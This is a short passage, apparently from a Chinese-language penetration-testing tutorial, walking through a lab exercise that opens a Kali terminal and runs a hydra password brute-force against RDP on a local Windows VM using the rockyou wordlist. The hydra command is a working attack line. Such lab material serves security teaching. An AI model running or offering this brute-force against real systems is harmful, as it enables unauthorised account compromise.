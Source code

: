 ![](img/2d8a5c0f-2053-41b2-9e6f-06c147f5b0e7.png)

1.  关闭所有剩余的对话框。

1.  验证你的 Windows 机器的 IP 地址；对我来说，我使用的是`192.168.56.105`。

1.  在 Kali 中点击图标打开终端窗口。 ![](img/adfdb39a-2c7b-4fac-a887-d1e3d8cf60fb.png)

1.  现在让我们使用已知的用户名和词典文件运行 hydra。你会注意到这确实需要一些时间，但最终你会得到密码：

```
hydra -t 4 -W 1 -l UserA -P /usr/share/wordlists/rockyou.txt rdp://192.168.56.105
```
